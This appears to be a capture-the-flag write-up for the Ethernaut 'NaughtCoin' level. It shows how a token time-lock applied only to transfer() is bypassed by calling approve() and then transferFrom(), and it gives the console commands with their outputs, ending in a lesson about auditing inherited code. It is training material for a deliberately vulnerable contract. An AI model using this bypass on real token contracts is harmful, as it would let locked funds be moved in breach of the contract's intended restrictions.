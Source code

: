 # NaughtCoin

## Keys

We need that `msg.sender != player`. We can use a `transferFrom()` that allows us to delegate the transfer to a third party.

> You can use both transfer() and transferFrom() to move tokens around
> The lockTokens() modifier is only applied to the transfer() function.
> https://medium.com/coinmonks/ethernaut-lvl-15-naught-coin-walkthrough-how-to-abuse-erc20-tokens-and-bad-icos-6668b856a176

## Solution

1. Check player's balance

```
> (await contract.balanceOf(player)).toString()
"1000000000000000000000000"
```

2. Use `approve()` for the player to be able to transfer that balance.

```
> await contract.approve(player, "1000000000000000000000000")
```

3. Verify the amount for the `allowance()`

```
> (await contract.allowance(player, player)).toString()
"1000000000000000000000000"
```

4. Do the transferFrom()

```
await contract.transferFrom(player, "0x3533916-ANYACCOUNT", "1000000000000000000000000")
```

5. Verify the player doesn't have more balance

```
> (await contract.balanceOf(player)).toString()
"0"
```

## Post-solution information

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that transfer is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
